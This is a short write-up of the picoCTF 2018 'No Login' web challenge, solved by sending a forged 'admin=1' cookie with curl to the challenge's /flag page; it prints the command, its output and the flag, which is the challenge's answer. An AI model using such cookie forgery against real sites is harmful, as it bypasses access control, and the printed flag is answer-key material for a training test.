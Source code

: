 # No Login
Web Exploitation - 200 points

## Challenge 
> Looks like someone started making a website but never got around to making a login, but I heard there was a flag if you were the admin. http://2018shell2.picoctf.com:39670

## Hint
> What is it actually looking for in the cookie?


## Solution


I got confused with the session cookie, but the solution is simply to create an `admin` cookie and do a GET request to `/flag`


	$ curl -s --cookie "admin=1" -L http://2018shell2.picoctf.com:39670/flag | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{n0l0g0n_n0_pr0bl3m_50e16a5c}</code></p>


References:
- https://support.portswigger.net/customer/portal/articles/1783055-Installing_Configuring%20your%20Browser.html
- https://support.portswigger.net/customer/portal/articles/1964073-using-burp-to-hack-cookies-and-manipulate-sessions

## Flag

	picoCTF{n0l0g0n_n0_pr0bl3m_50e16a5c}
